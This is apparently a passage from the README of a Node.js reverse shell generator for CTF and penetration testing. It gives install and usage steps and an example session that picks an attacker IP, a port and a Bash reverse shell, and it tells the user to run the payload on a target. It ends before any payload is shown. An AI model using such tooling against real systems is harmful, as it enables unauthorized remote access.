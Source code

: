 ### Step 4: Make Executable (Optional)

```bash
chmod +x src/index.js
```

## Usage

### Basic Usage

```bash
# Run directly with Node.js
node src/index.js

# OR if you made it executable
./src/index.js
```

### Global Installation (Optional)

```bash
# Install globally
npm install -g .

# Then run from anywhere
revshell-maker
```

## Quick Start Guide

1. **Start the tool:**
   ```bash
   node src/index.js
   ```

2. **Follow the interactive prompts:**
   - Enter your **IP address** (attacker machine)
   - Enter **port number** (default: 4444)
   - Select **target platform** (Linux, Windows, macOS)
   - Choose **shell type** (Reverse Shell, Bind Shell, MSFVenom)
   - Select specific payload from the list

3. **Use the generated payload:**
   - Copy the command to clipboard (if supported)
   - Run the listener command shown (for reverse shells)
   - Execute the payload on the target machine

## Examples

### Reverse Shell Example
```
┌─────────────────────────────────────┐
│        Reverse Shell Generator      │
│         CTF/Pentesting Tool         │
│   Generate reverse shells for       │
│     various platforms               │
└─────────────────────────────────────┘

? Enter your IP address: 10.0.0.5
? Enter port number: 4444
? Select target platform: Linux
? Select shell type: Reverse Shell
? Select reverse shell commands: Bash -i (linux, mac, ReverseShell)

════════════════════════════════════════
```